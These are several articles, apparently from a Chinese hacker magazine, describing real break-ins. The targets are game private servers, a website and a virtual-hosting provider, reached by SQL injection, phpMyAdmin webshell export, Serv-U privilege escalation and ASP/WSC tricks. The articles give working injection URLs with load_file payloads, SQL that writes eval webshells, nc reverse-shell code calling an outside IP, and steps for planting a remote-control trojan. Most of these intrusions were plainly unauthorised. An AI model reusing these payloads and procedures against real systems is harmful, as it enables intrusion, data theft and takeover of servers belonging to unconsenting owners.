成功添加 Rabbitsafe 用户为管理员，接着利用添加的 rabbitsafe 管理员成功登录朋友魔兽私服的服务器，如图 12。

到此，渗透全部结束，最后通过万能提权终于成功拿到朋友魔兽私服的服务器。

### 三、总结收尾

文章中的 Windows Token Kidnapping 本地提权漏洞目前好像微软还没出补丁，大家手里如果有大量 Webshell 没有提权的，可以用这个漏洞试试。后来询问朋友为什么服务器上开着那么多的组件，asp、php、asp.net 等脚本都支持？朋友说，原来服务器上放过 asp 和 asp.net 的网站，后来私服程序换成 php，asp 和 asp.net 都忘了删除。

如果朋友的服务器上只支持 php，这次渗透就没那么容易了，服务器提供的服务越多就越不安全，特别是在没人管理的情况下。

最后，希望大家能从这篇文章中学到东西，有什么不明白的地方，可以到《黑客手册》论坛去找我，我的论坛 ID 是 rabbitsafe。

> 【文章中用到的提权工具 Churrasco.exe 已经收录在本期光盘】

> 编辑点评：很“老套”的一篇文章，似乎什么都是旧的，rabbitsafe 是我一直看好的一个作者，你该加油了。

## 曲折的 Shell，强大的 IIS

本文的亮点在于 phpMyAdmin 不能创建表时如何导出 Webshell。

目标：传说中的“来网”。环境：WIN2003 + IIS + PHP + MYSQL，有 phpMyAdmin 后台。

### 一、踩点找突破口

首先利用百度 + 啊 D 搜索注入点，百度搜索 `inurl:php? site:www.***.org.cn`，然后放到啊 D 里翻页去吧。记得在高级搜索里设置每页显示 100 条。

结果发现注入点 N 个，随便选了个：`http://www.***.org.cn/test1/ads_match/sheying3/personal.php?id=606`。另外顺便说一下为什么这次目标环境是 IIS，因为随便找个网页进去，然后更改地址大小写发现同样可以访问，说明很可能是 Windows 系统，因为 *NIX 是区分大小写的。而且在分站里发现了 ASP，结合扫描工具可以确定是 WIN2003 + IIS。访问 `http://www.***.org.cn/phpmyadmin/` 发现了 phpMyAdmin 后台。

### 二、注入点

输入语句：`http://www.***.org.cn/test1/ads_match/sheying3/personal.php?id=606/**/and/**/1=1/**/union/**/select/**/1,2,3......`，直到 10 的时候返回成功，如图 1。

这个注入点可以联合查询（union），可以读取任意文件，不能用 outfile 导出，不能爆出路径。当前思路：弄到网站路径，读取网页的源码，查找敏感信息。

`c:\windows\system32\inetsrv\metabase.xml` 是 IIS 的配置文件，记载着相当多的信息，包括网站的路径。将 `c:\windows\system32\inetsrv\metabase.xml` 转换为十六进制 `0x633A5C77696E646F77735C73797374656D32335C696E65747372765C6D657461626173652E786D6C`，构造如下语句：

```text
http://www.***.org.cn/test1/ads_match/sheying3/personal.php?id=606/**/and/**/1=2/**/union/**/select/**/load_file(0x633A5C77696E646F77735C73797374656D32335C696E65747372765C6D657461626173652E786D6C),2,3,4,5,6,7,8,9,10/*
```

因为 magic_quotes_gpc = On，单引号被转义，所以要转成十六进制，用 ASCII 码也可以。至于为什么要插在 1 的位置，是我一个一个试的。插了几个别的地方，因为长度的原因都只显示出一点，又不能导出，而 1 的位置恰好是一个隐藏域的值，没有长度的限制，完整地读了出来。当然，要查看源文件才可以看得见，如图 2。仔细往下找，终于艰难地找到了路径的信息。

### 三、登录 phpMyAdmin 后台

利用上一步获取的路径，把相对路径转换成绝对路径，读取首页文件 index.php，轻松发现了其包含的数据连接文件 sqlconnect.php。继续阅读，发现数据库连接密码。事先了解到网站有 phpMyAdmin 后台，用拿到的密码登录，本想直接执行下面的语句获得 shell，可惜创建表失败。

```sql
Create TABLE a (cmd text NOT NULL);
insert INTO a (cmd) VALUES(' <?php eval($_POST[1]);?> ');
select cmd from a into outfile 'E:/xxx/yijihua.php' ;
Drop TABLE IF EXISTS a;
```

既然不能创建新表，那就用旧的。找一个 text 类型的字段，向其中写入一句话，然后导出到网站路径。另一个办法是查到后台密码，然后登录后台，这样比较麻烦，而且 MD5 很强悍。

在 comic 库的 notice 表里插入一条记录，设置一个个性的 id，为下一步导出作铺垫，如图 3。

然后执行 SQL：

```sql
Select content from notice where id=12345
into outfile 'e:\\wwwroot\\manage\\yijihua.php'
```

提示执行成功了，但不是按预想的那样写到了网站的 manage 目录下，而是写成了 `e:\wwwroot\manage\yijihua.php`，也就是斜杠被过滤掉了。那好办，执行这样的 SQL 语句：

```sql
Select content from notice where id=12345 into outfile 'e:\\wwwroot\\manage\\\\yijihua.php'
```

### 四、上传大马又曲折

访问 http://manage.***.org.cn/yijuhua.php，文件存在，写入成功！用 ZV 新型客户端连接（开始用的是 LANKER2 的一句话，但是上传大马的时候虽然传上去了，但不能运行。用 load_file 读了一下，发现所有的引号前面都多了个斜杠，而 ZV 提交数据是先转换成 ASCII 码再用 char() 函数处理，可以绕过可恶的转义），但是 ZV 没有上传大马的功能，只能新建文件。

但这时文件内容长度有限制，开始写了个只有上传功能的 PHP 小马，在传大马的时候发现又成了那样；被转义，如图5，于是想到了“强大的 IIS”。

刚才顺手牵到了网站的路径，现在又要用到它了！IIS 默认可以解析 ASP，传了 ASP 的小马，再传就可以绕过 PHP 的转义了，OK！写小马，用小马传大马，成功！

### 五、提纲总结

上面写得很乱很杂，重新整理下思路：

- 发现注入点 -> 能读不能写；
- 爆不出路径 -> 读取 IIS 配置文件 Metabase.xml 找到网站物理路径；
- 读取文章文件发现数据库连接文件 -> 读取数据库连接文件发现数据库密码；
- 登录 phpMyAdmin，后台创建表失败；
- 利用已存在的表写入一句话，导出 -> 连接传小马；
- 小马传上去的大马被转义 -> 挂了；
- 再用 ZV 一句话写 ASP 的小马，传大马成功。

为了大家看明白，我特别制作了一个树型思路流程图，呵呵，如图6所示。

### 六、后记——注入点的修补

用 phpspy 编辑存在漏洞的文件 personal.php，可以看到如下代码：

```php
$id=(isset($_GET["id"]))?$_GET["id"]:$rowl["id"];
$res=mysql_query("select * from vote where id='".$id);
```

很明显 $id 没有过滤就被直接带入查询了，因为 $id 是数字型的，修补只需要用 intval() 处理一下就可以了。修改后的代码如下：

```php
$id=(isset($_GET["id"]))?$_GET["id"]:$rowl["id"];
$id=intval($id);
$res=mysql_query("select * from vote where id='".$id);
```

文章截稿时漏洞已经修补，小弟才疏学浅，文章漏洞百出，还望高手勿笑。

> 【文章中用到的 ZV 新型 PHP 一句话木马客户端 GUI 版.EXE 已收录在本期光盘】

> 编辑点评：  
> 本文写得较简单，没有多余的废话，而且入侵总结的方法比以前新颖，不过技术还是老东西了，大家温习一下吧。

## 入侵某私服网

本文你可以学到：

- dedecms 漏洞的利用
- PHP 注入的常规方法

### 一、起因

某天接近傍晚之时，记不清楚是何年何月了，QQ 的系统消息来了，打开一看，上面写着“xx 介绍的”，和其聊天之，发现是一私服玩家，其人和 xx 私服有点……，然后又不知道从哪里打听到我的 QQ 号，然后又不知道为什么加了我，总之就是一句话，想让我帮它出一口气，把 xx 私服站点给 xx 了。我问了一下好友，果然是他介绍的，哎，不好推辞，然后就发生了本文所写的二三幕……

### 二、初战失利

打开他丢过来的站点，http://www.xx.com，以前都没有搞过这类站点，一打开我傻了，如图1，和平时搞的站不太一样呀！

冰的原点[L.S.T]

随便打开一个链接都是类似于 http://www.xx.com/go.htm?u=http://xx.com 这样，首页上的链接有两个值得关心的地方，一个是私服新闻链接，一个是私服攻略的链接。不过打开一看，也全是 HTML 的页面。初看起来，似乎难度系数有点大哦。

# 西线无战事

我决定先是利用自己的字典扫描目录并配合 WVS 扫描的结果分析可以利用的页面；然后利用 Google 和百度查找一些情况。我用的扫描工具是 wwwscan 和 WVS，先让扫描工具扫描着，我也不能闲着，打开 Google，先 “site:xx.com” 一下，在翻了几页后，发现了一个 PHP 页面的链接，如图2。顺势点开一看，原来有 dedecms 这套系统在上面呀，如图3。

好啊，突破口出现了。在编码漏洞流行的今天，dedecms 当然也出现问题了。我手里只有一个 include/dialoguser/select_soft.php?f=&keyword=&mediatype=4%bf' 编码漏洞，而且樱花浪子已经写出工具了。这个漏洞的利用前提是要先注册一个用户，这里我就不演示了，可我在用工具操作的时候老是爆不出管理员的用户名和加密的 MD5 值。

看来工具也不太好使，不能在这一个漏洞上吊死呀，百度一下，发现 dedecms 的最新漏洞也是和这个一样，是 buy_action.php 没有对 pid 过滤导致的 SQL 注入，利用语句为：member/buy_action.php?product=member&pid=-1%20and%201=1%20union%20select%201,2,userid,4,5%20from%20%23@__admin/*，放到这个站上一试，竟然返回这样的信息，如图4。

返回如图5。因为 select_soft.php 这个漏洞我最先看到是 xzl 发现的，没想到他一看到图5的链接就提示我把表名换成 #@__admin，而且丢了一个链接过来，http://www.xx.com/include/dialoguser/select_soft.php?f=&keyword=&mediatype=4%bf%27%20and%201=2%20union%20select%201,concat(userid,char(58),substring(pwd,9,16)),3,4,5,6%20from%20%23@__admin/*。我敲到浏览器里回车一下，返回了如图6的信息。啊啊，MD5 出来了。

我汗呀，竟然出现这样的问题！没办法，上网又下了一些其他利用工具，也不好使。正郁闷时，想起为何不让其他人帮帮忙呢？于是拉上 xzl 同志（我的 boss 哇），把这个链接丢给他，说工具搞不动，他让我手工一下（好像很忙）。没办法了，我试了下，马上去给了我们可爱的陆总（大家就不要猜测是谁啦！），结果十秒钟后，他给了一个很打击我的消息，这个 MD5 太强悍了，连陆总都破不出来！思路就在这里断掉了……

不过，回头看一下我的 wwwscan 扫描结果，如图7，嘿嘿，希望还是有的，大家看到 phpMyAdmin 没？哈哈，大家都知道 phpMyAdmin 有暴物理路径的漏洞哦，说不定可以得到一些敏感的信息。

一般利用 phpMyAdmin 暴路径需要以下几个文件：

- phpMyAdmin/libraries/select_lang.lib.php
- phpMyAdmin/darkblue_orange/layout.inc.php
- phpMyAdmin/index.php?lang[]=1

我兴冲冲地去暴目标的路径，没想到在浏览器里得到的却是一片空白，如图8，看来这个站的站长安全意识还不错。看着扫描的结果，发现有 inc/conn.asp 这个文件，以为会有传说中的裸库，打开一看也仅是一个“数据库链接出错，请检查链接字串！”的提示。看一下 robots.txt，也是些无关痛痒的文件，再看下 WVS，竟然还在扫描中……

### 三、另寻它法

时间过得挺快的呀，刚才还是傍晚，咋一下子发现太阳了呢？一看竟然七点多了，我汗，一想起这个时间，肚子竟不自觉地叫了。哎，再怎么说不能把肚子给饿着了嘛。于是收工、吃饭、作业……今天就不搞了，明天还要上课呢。

第二天晚上，晚饭都吃了，作业也搞了，那位朋友也催我了，于是再次打开这个站点。在自己的硬盘里查看了下关于 dedecms 的一些资料，终于找到了《For Get() Vul Of Dedecms》的 exp，也找到了一份那个直接写文件的漏洞利用参考资料，结果对这个站都没有用。

打开 cnsuperscan 3.0 对服务器的端口扫描了一下，发现对方只开了 80 和 3389，mstsc 连上去，2003 的系统，按五次 Shift 键，没有出现传说中的后门。思路一度陷入僵局，沉思了几秒钟，重新整理一下：

- 查这个域名的注册信息，配合 Google，社工其终端密码；
- 继续回主站再次查看一下是否有漏掉的页面。

有了思路，就开始做了。当然我的 WVS 还是继续开着，打开 http://123cha.com/ 页面，通过查询得知其注册人的姓名为：吴 xx，邮箱为 chxxx@163.com；而且还有几个英文名。

首先 Google 一下“吴 xx”，我汗，竟然有好几十页，怎么全国这么多同一个姓名的？遂放弃用姓名作关键字来查询了。利用邮箱 Google 的时候，发现 Google 竟然搜索不到。没关系，国内不是还有一个百度嘛，不过也只搜到了两条记录，其中一个是在 www.poco.cn 网站的注册信息。

点开一看，没想到还要注册，没关系，利用百度的快照查看其个人信息，发现啥也没有，唯一多了一个他的另一个 ID：魔神的爱。

以这个 ID 来进行搜索，我汗，又是一个没有代表性的关键字。回到网站查看其相关页面，发现站长的 QQ 为 43xxxx，搜索后竟然搜索到一些股票信息。查询其 QQ，发现填写的资料也没什么可以利用的，看来站长果然不是吃素的呀。

后来听那位朋友说这个私服站在百度排名第三，好像是挺牛的。现在还是回到站点首页，点开看一下他们的新闻吧。咦？右上角的那是什么东西，如图9，有个搜索的地方，说不定有可乘之机。

熟悉地在输入框中输入：**私服'' and 1=1 and '%'='**，

嗬？报错了哇，没想到竟然把物理路径爆出来了（这里我没有截图，因为文章是事后写的）。到这里信心又开始慢慢慢慢有了，继续找找，大概半个小时过后依然没有什么收获，思路再一次断掉了。

### 四、灵光乍现

似乎没搞头了，不能急，我安慰自己，先来整理一下自己得到的信息：

- 是网站的管理员的用户名和一个无法破开的 MD5 值；
- 是网站的物理路径；
- 是一个能得到网站用户名和 MD5 的注入点。

想想觉得能不能把管理员的 MD5 给 update 掉，试着在注入点执行语句，发现单引号被转义，此路不通。又联想到 #@__admin 表中会不会还有其他管理员，试着在注入语句后加上 where 限制语句，结果报错，此路还是不通。

现在已经知道了网站物理路径、注入点、PHP……哇靠，我怎么这么傻呀！PHP 的注入点，我怎么连最普通的 PHP 注入步骤都忘了呀？嗯，灵光一现，马上行动……

```text
http://www.xx.com/include/dialoguser/select_soft.php?f=&keyword=&mediatype=4%bf%27%20and%20(select%20count(*)%20from%20mysql.user)>0%20/*
```

如图10，返回正常。

哈哈，可以 load_file 哦，试试先。把 2 那里换成 load_file(0x633A5C626F6F742E696E69)，其中 633A5C626F6F742E696E69 是 c:\boot.ini 的十六进制，完整的 URL 为：

# 西线无战事

=4%bf%27%20and%201=2%20union%20select%201,load_file(0x633A5C626F6F742E696E69),3,4,5,6%20from%20mysql.user/*，返回的信息如图11。

呵呵，成功地读取了 `c:\boot.ini` 文件的内容。好了，这下思路更加明确了，读 MySQL 的连接密码，然后利用 phpMyAdmin 拿 shell。

说干就干，从前面整理的信息得知 plus/search.php 的完整路径为 `d:/www/plus/search.php`，转成十六进制，然后 load_file，返回如图12。右键查看源文件，发现有如下代码：

```php
require_once(dirname(__FILE__).'/../include/config_base.php');
require_once(dirname(__FILE__).'/../include/inc_arcsearch_view.php');
```

于是转而读取 `../include/config_base.php`，得到了 root 的密码。然后登录 phpMyAdmin，利用以下代码得到了一个密码为 1 的一句话木马，如图13，此次渗透便告一段落。

```sql
Create TABLE a (cmd text NOT NULL);
Insert INTO a (cmd) VALUES('<?php eval($_POST[1]);?>');
select cmd from a into outfile 'D:/phpMyAdmin/libraries/d.php';
Drop TABLE IF EXISTS a;
```

### 五、总结

这次入侵有点运气的成分，首先是那个暴露路径的地方，其次是整个人入侵过程中的思维转变，给我以后的人侵也带来了不少的思路。再次，目标是 root，最后我拿到了 3389。我的话完了，呵呵，有什么不懂的，可以到论坛找我，我的 ID 是“冰的原点”。

## 编辑点评

我看了作者的文章，是按平常的思路习惯来入侵的，有时难免挂一漏万。我在想，大家可以在入侵前写一个入侵提纲，对对方方法步骤，写得条数越多越好，然后按部就班来入侵也是一个好方法。

## 坚持不懈，渗透虚拟主机服务商

通过本文你可以重新温习一下虚拟主机常用的提权方法。

是国内虚拟主机比较便宜的一种了，我怎么能不动心呢？做一个个人 BLOG，我想也要不了太大的空间，所以就注册了最便宜的那种。注册时选择试用 7 天，注册成功后就拥有自己的空间了。

### 一、写在前面

近来心血来潮，想找个空间做 BLOG，想便宜又好用，所以就在网上找了起来。无意间搜到了一个空间出售的站，主页的内容吸引了我，如图1所示，竟然可以免费试用一周，而且最便宜的空间才 10 元 RMB 一年。更重要的是，居然是全能空间，如图2，这可是国内虚拟主机比较便宜的一种了。

### 二、探路

# 西线无战事

测试组件时发现 WSCRIPT.SHELL 和 WSCRIPT.NETWORK 都不在了，看来管理员还是有点经验的，如图3。

既然命令没有办法执行，我们就看看目录的访问权限有没有。可是结果还是很令我失望，不仅安装程序目录 C:\Program Files 不能访问，就连世界公认的 EVERYONE 可以访问的目录 C:\Documents and Settings\All Users 都不能访问，如图4、图5。好像一切都不是很顺利，ASP 马确实只是 GUEST 权限，思路第一次陷入了僵局。

从一开始就对此次入侵没有抱太大希望，所以完全可以以一颗平常心去对待此次检测。点燃一支烟，思路在烟雾中飞舞……既然是全能空间，我们不妨换个脚本木马上去看看权限如何。说做就做，很快搞了 PHPSPY 上去，可是结果没有料想的那样好，PHP 依然是 GUEST 权限，如图6。

> 小知识：
>
> 虽然 PHP 在 Apache 下是 SYSTEM 权限，但是这台主机使用的是 IIS，PHP 自然也就继承了 IIS 的 GUEST 权限。

既然 PHP 没有用处，那就换个 .NET 的马上去，通常情况下，.NET 可是 USER 权限啊，希望服务器没有变态到把 .NET 也搞成 GUEST。传上 ASPXSPY 后战战兢兢地执行系统命令，返回了如图7的结果，竟然是“拒绝访问”，哈哈，这次总算有点希望了。

立刻在我的站点目录下传好 cmd.exe，然后调用这个 cmd.exe 继续执行命令，哈哈，Set 成功了，如图8。尝试执行“net user”却没有任何反应，执行“ipconfig”等命令依然没有反应，如图9，入侵再次陷入僵局。

看来管理员还是对服务器的安全下过工夫的，但是我也不是轻易就能放弃的人，既然结果在一点点地变好，我还是继续我的入侵之路吧。

现在看来命令是无法执行了，不过 .NET 的权限确实比 ASP 和 PHP 高。

# 西线无战事


PHP 都行，这是确定的！ASP 和 PHP 都不能浏览程序目录，不知道 .NET 可不可以？立刻在 SHELL 里跳转到 `c:\program files`，哈哈，这次终于可以看到目录了，如图 10。

我想对于广大菜鸟来说，最在意的就是我刚刚标出的那两个目录了，RhinoSoft.com 和 SERV-U 都是 SERV-U FTP 服务器的默认安装目录，向来是提权的重点。经我用 ASPXSPY 的进程 SYSINFO 功能查看，如图 11，发现站点确实安装了 SERV-U，而且找到了它的安装目录，就在 `c:\program files\serv-u` 下。所以赶快跳到此目录下，看看 SERV-U 的配置如何。

找到 `ServUDaemon.ini` 文件，点击编辑，查看里面的配置内容，一打开就看到了令人欣喜的一幕，如图 12。

配置文件中有 `LocalSetupPortNo=10242`，这句话的意思就是 SERV-U 的管理端口已经从默认的 43958 改成了现在的 10242，这里要表扬下管理员的安全意识了。但是下一点就要受到批评了，因为我没有发现 `LocalSetupPassword`，这个东西可是很致命的哦，如果配置文件中没有这一句，说明管理员并没有在 SERV-U ADMIN 的管理界面中修改 SERV-U 的默认管理密码，这样很有可能造成致命的提权漏洞。


图 11

| PID | 进程名 | 内存 |
|---|---|---|
| 7992 | w3wp | 7757824 |
| 6796 | w3wp | 1286144 |
| 5120 | nginxphp | 40960 |
| 2012 | ServUDaemon | 1458176 |
| 9420 | w3wp | 2158592 |


我们已经发现了这两点有用的信息，而且看到了 SERV-U 的版本是 6.4，下面就要着手提权了。

### 三、入侵

SERV-U 到现在，版本已经升到了 7.3。从 6.4 开始，以前的 SERV-U 提权脚本就不能直接执行命令了。据说现在“落叶纷飞”写了一个可以在 6.4 以上的 SERV-U 服务器上直接执行系统命令的东西，但是我没有用过，也不敢尝试，要是出什么意外，这台服务器一定会挂掉，到时候就不好玩了。

保守起见，我还是决定用“我非我”的 SERV-U 提权工具 PHP 版，先加个有执行权限的 FTP 用户上去，如图 13。

添加用户的时候要记得把默认的 SERV-U 管理端口修改为我们刚刚看到的 10242，上面的主机 IP 地址要写服务器的真实 IP，否则是不会成功的，然后把想要添加的用户和密码、用户的主目录写上去就 OK 了。

我简单地修改了下，添加的用户是 vivian，主目录是在 I 盘，也就是服务器存放 WEB 的磁盘。一切设置好后点击“添加”，回显如图 14，成功了。

我们再跳转到 SERV-U 目录查看配置文件，发现 vivian 已经在那里了，如图 15。下面的事情就好办多了，给自己的 FTP 目录传个远控进去，然后用 vivian 登录 FTP，CD 到我的 WEB 目录，直接执行 `quote site exec "i.exe"`。看到回显了吗？表示命令执行成功了，如图 16。稍等片刻，肉鸡已经上线了，如图 17。


图 15


图 16

最后要做的就是把 vivian 从 SERV-U 的配置文件中删除，清除入侵足迹，卸载远控，然后找到网站的客服，和他说说漏洞。听不听由他了，这样的空间我是不会买了。


图 17

### 四、尾声

经过几个小时的奋战，这个虚拟主机的服务器终于拿下了，用 ASPXSPY 的 IISSPY 功能发现服务器上的用户和站点将近 200 个。这样一个服务器竟然如此不堪一击，这是我所料未及的。以一个旁观者的角度来说，服务器的管理员有很多东西是我们可以借鉴的，比如修改了 SERV-U 的端口、将 PHP 降到了 GUEST 权限、还有对系统的 CMD 设置了高权限等等……至于那些漏洞，也是悉心动鼠标和键盘几分钟就可以搞定的，可是为什么没有去做呢？这个问题是不是值得广大网站的管理者深思呢？

> 编辑点评：编辑了这么多期文章，每期都看到 eWebEditor 和 Serv-U 这些字眼，我只挑一篇给大家看看。

LCX 寄专言语：高贵开了有一年了，新的一年还在继续……这期文章和大家见面的时候，估计我已经辞职离开北京了。回想在北京的 5 年，总有一些眼泪会砸碎现实的一些东西。就算是我离开北京，我想“网络安全”这一爱好我还会持续下去，在这个杂志继续为大家服务。2009 年新的题目我定为：“内网渗透”，看看高手们有什么新奇的东西奉献给我们亲爱的读者吧。

## 浅谈 Hacking 中的小技巧

图 Netpatch

本文你可以了解到 asp 的另类利用。

继 2008 年 11 期和 12 期的两篇介绍 Hacking 中小命令的文章后，在 LCX 大哥的淫威下，偶只能继续科普生涯了。长话短说，我们直接进入正题，以下内容测试环境均为 2K3+IIS6。

### 一、Perl、Python 环境的利用

话说 Perl 环境，除了服务器支持 PL 这个扩展映射外，我们一般无法使用 Perl 去做一些想做的事情。比如，当旁注进入服务器，却因服务器执行不了命令而原地踏步，无法继续向最高权限前进时，特别是现在国内的虚拟机，大部分都是如此，让小菜们很是头疼。所以今天 NP 就来讲讲被一般人忽视的 Perl 环境。

```perl
<%@Language=PerlScript%>
```

首先，Perl 环境可以让我们利用的，是环境变量和目录的权限疏忽，这个可以参考我 07 年 10 期写的《谈环境变量在 Hacking 中的利用》！其次，也是被一般人遗忘的技巧，虽然服务器不支持 PL 扩展映射，但是安装 ActivePerl 后默认支持 Perlscript！于是我们用 Perlscript 写 ASP 文件，在 ASP 里用 Perlscript 的内部函数来执行命令，或者做些 Perlscript 能做的事情。但是权限仍然是 ASP 的来宾权限，具体权限分配以及原理可以参考 08 年 12 期我写的《小谈 WIN 系统 Hacking 中的小命令》，我们来举例说明下。

```perl
# 由于是 Perl，所以注释是用井号('#')
<%
system("e://wwwroot//cmd.exe /c e://wwwroot//nc.exe -e cmd.exe -v 192.168.8.100 443");
# 用 system 函数执行命令

# exec("e://wwwroot//cmd.exe /c e://wwwroot//nc.exe -e cmd.exe -v 192.168.8.100 443");
# 用 exec 函数执行命令
%>
```

将上面的代码保存为 perl.asp，本地 NC 监听 443，执行后，我们的 NC 会接到目标机器反弹回来的 SHELL，如图 1 所示。


图 1

### 二、WSC——“Windows 脚本部件”的巧用


图 2

system 换成 EXEC 也一样，这里我们就不多说了，举一反三，其他的就留给读者自己去做实验了。

Python 环境也一样，当服务器装有 ActivePython 时，我们就可以用 `@Language` 定义本页脚本解析语言来切换成 Python！范例请看如下代码，运行结果如图 2 所示。

```python
<%@LANGUAGE="python" CODEPAGE="936"%>
<%
import os
import os.path
rootdir = "e://wwwroot//"
for parent, dirnames, filenames in os.walk(rootdir):
    # case 1:
    for dirname in dirnames:
        Response.Write("parent is :"+parent+"<br>")
        Response.Write("dirname is :"+dirname+"<br>")

    # case 2
    for filename in filenames:
        # Response.Write("parent is :"+parent+"<br>")
        Response.Write("filename with full path :"+os.path.join(parent, filename)+"<br>")
%>
```

当然你也可以发挥 DIY 精神，改造一个好用的，基于 asp 的 Perl，或者 Python 的 Webshell。这里我就不献丑了，留给读者当复习作业。提示一下，**Python 对中文支持不是很好，写代码的时候尽量使用英文。**

NP 在测试时有一想法，不知道在支持 Perlscript 和 Python 的服务器上，是否可以利用这两个脚本语言的 SOCK 函数去做些什么事情呢？YY 中……

对于 WSC，可能大多数的人都会感到很陌生，我也是通过 LCX 大哥的介绍才开始认识这个强大的东东。

> Windows 脚本部件为您提供了用脚本创建功能强大、可复用的 COM 部件的简便方式。您可以使用任何支持 Microsoft ActiveX Scripting 接口的脚本语言来创建脚本部件，支持这些接口的脚本语言有：JScript、Microsoft Visual Basic Scripting Edition（VBScript）、PerlScript、Pscript 和 Python。

这次我们也不多介绍，就介绍 asp 调用 WSC，会用到 Vbscript 和 Perlscript，其他的就让读者自己慢慢研究吧。WSC 文件内容如下：

```xml
<?XML version="1.0"?>
<package>
<Component>
<registration ProgId="lcxNB" />
<public>
    <property name="lcxNNB" />
    <method name="run">
        <parameter name="str" />
    </method>
</public>
<script language="vbscript" runat="server">
function run(str)
    run=eval(str)
end function
</script>
</Component>
</package>
```

或许你对这些不太明白，我们来看下微软给出的帮助吧：

`<component>` 和 `<package>` 元素：`<component>` 元素包含的是一个完整的脚本部件定义。在同一个 `.wsc` 文件中可以出现多个 `<component>` 元素，但这些元素应包含在一个 `<package>` 元素内。

`<registration>` 元素：包括用来将脚本部件注册为 COM 部件的信息，如果宿主应用程序（如 Microsoft Internet Explorer 5.0）在创建该脚本部件的实例时没有直接使用 Windows 注册表，则该元素不是必需的。

`<public>` 元素：包含脚本部件所说明的属性、方法和事件的定义。这些定义指向定义在独立的 `<script>` 块中的变量或函数。

`<implements>` 元素：给脚本部件指定 COM 接口处理程序，这将确定该脚本部件属于哪种 COM 部件类型。例如，通过指定 `<implements type=ASP>`，就可以实现 ASP 接口处理程序，并因此在脚本部件中可以访问 ASP 对象模型。`<public>` 元素即指定了脚本部件将实现 COM Automation 接口处理程序。因此，对 Automation 处理程序无需创建 `<implements>` 元素。

**注意：脚本部件运行库包括用于 Automation（使用 `<public>` 元素说明的）、用于 ASP 以及用于 Internet Explorer 5.0 DHTML Behavior 的接口处理程序，其他接口处理程序可以作为外部 DLL 获得。**

关于附加的接口处理程序和脚本部件的详细信息，请参阅 Microsoft Scripting Technologies Web 站点。

`<script>` 元素：包含用来实现脚本部件逻辑的脚本，这取决于所创建的 COM 部件类型。例如，如果要创建的是 COM Automation 部件，则可以在 `<public>` 元素中声明属性、方法和事件，然后用一个或多个 `<script>` 元素编写脚本来定义这些内容。

我们自己编写的话，经常会写错，不过可爱的微软推出了专门生成 WSC 部件代码的工具 Windows Script Component Wizard，我们只要根据提示输入数据即可。使用方法如图 3、图 4、图 5、图 6、图 7、图 8 所示。


图 3


我们可以将 WSC 文件随便改名，然后在 ASP 里指定就可以了。接着再来看下我们调用的 ASP 文件内容，代码如下：

```asp
<%GetObject("script:" & Server.MapPath("b.jpg")).run(request(chr(36)))
%>
```

2K 和 2K3 都可以使用：

```asp
<%GetObject("script:http://www.haiyangtopnet.com/b.jpg").run(request(chr(36)))%>
```

只能 2K 下使用，2K3 不支持远程调用。

利用方法就是：

```text
WSC.asp?$=CreateObject("Scripting.FileSystemObject").opentextfile("e:\wwwroot\new_webshell.asp",8,true).WriteLine("<%25eval(request(chr(36)))%25>")
```

访问上面给出的地址，就可以往 `e:\wwwroot\` 目录写入一句话 webshell。

```text
WSC.asp?$=CreateObject("WScript.Shell").run("e:\wwwroot\cmd.exe /c net user>e:\wwwroot\cmd.txt")
```

用以上 URL 访问，就可以用 WScript.Shell 执行命令。

由于我们是调用 VBSCRIPT，所以都是以 VBSCRIPT 的环境来执行的，也就是说，不支持 ASP 里的 response、request、server.mappath 等函数，参数传递是个问题。

我们再来看看 Perlscript，代码如下：

```xml
<?xml version="1.0"?>
<component>
  <registration progid="SimpleASP"/>
  <public>
    <method name="Test"/>
  </public>
  <implements type="ASP"/>
  <script language="PerlScript">
    <![CDATA[
    sub Test {
        exec("e:\\wwwroot\\cmd.exe /c e:\\wwwroot\\nc.exe -e cmd.exe -v 192.168.8.100 443")
    }
    ]]>
  </script>
</component>
```

唯一不同的是，我们用 `language` 指定了脚本解析语言为 PerlScript（再强调下，需要服务器支持 Perlscript）。当我们把下面的代码保存为 ASP 文件，并访问时，即可获得一个反弹 SHELL。

```asp
<%GetObject("script:" & Server.MapPath("SimpleASP.WSC")).Test()%>
```

### 三、RainBowCrack 的使用

相信不少朋友进入目标服务器后都曾为管理员密码的事情过脑筋吧？又是 GINA，又是 HASH 的。往常，很多人采用 GINA 记录管理员登录密码以达到继续渗透的目的，或者用 LC5 破解 LM Hash。但是 LC5 是采用普通的暴力破解，所以耗时费力，效率太低。早在一年前，我就开始享受 RainbowCrack 带来的效率，现在国内也开始慢慢普及 RainbowCrack 了。

RainbowCrack 是韩国人开发的密码破译工具，它的设计思想基于快速时间—内存平衡技术（Time-Memory Trade-Off Technique），简单地来说就是它在进行密文解密时不是单独来进行解密操作的，而是在解密前先生成一份完整的明文到密文的对照表，再一次批量对密文进行解密。

RainbowCrack 代表了目前解密技术的一个新的发展方向，它的诞生也使得广泛使用的 MD5 算法和 Windows 的 LM 算法生成的密文在极短的时间内得到破译，而且破译的成功率也达到了破纪录的水平。

虽然 RainbowCrack 用彩虹表跑密码的速度很快，但是创建彩虹表可能要花费数小时、数天甚至好几个月的时间。还好网络上早有组织在从事彩虹表的制作，如比较出名的 www.freerainbowtables.com。很多网络爱好者，自己利用电脑空余时间或空余的系统资源去生产字典，并上传到服务器，我们可以从网络上下载到一些免费的彩虹表。

| 参数 | 取值 | 含义 |
|---|---|---|
| Hash_algorithm | lm, md5, sha1 | 散列算法，其中 lm 表示 LMHASH，为 Windows 口令的散列方法 |
| plain_charset | alpha, alphanumeric, alphanumeric-symbol14, all, numeric, loweralpha, lower-alphanumeric#1 | 明文所用字符集。使用 byte 表示将 256 个字符全作为字符集 |
| plain_len_min | 数字 | 明文的最小长度 |
| plain_len_max | 数字 | 明文的最大长度 |
| rainbow_table_index | 数字 | 彩虹表的索引 |
| rainbow_chain_length | 数字 | 彩虹链长度 |
| rainbow_chain_count | 数字 | 要生成彩虹链的个数 |
| file_title_suffix | 字符串 | 添加到文件标题后面的字符串，用于书写彩虹表的注释 |
| -bench | -bench | 测试选项，用于性能测试 |

图 9

RainbowCrack 的最新版本为 1.2，但它不支持多线程操作！这个工具可以在 http://www.antsight.com/zsl/rainbowcrack/ 下载。

- **rtgen.exe** —— 彩虹表生成器，生成口令、散列值对照表。
- **rtsort.exe** —— 排序彩虹表，为 rcrack.exe 提供输入。
- **rcrack.exe** —— 使用排好序的彩虹表进行口令破解。
- **rtdump.exe** —— 彩虹表转储。

我们首先来看下彩虹表生成器 rtgen.exe 的使用：

```text
rtgen hash_algorithm \
  plain_charset plain_len_min plain_len_max \
  rainbow_table_index \
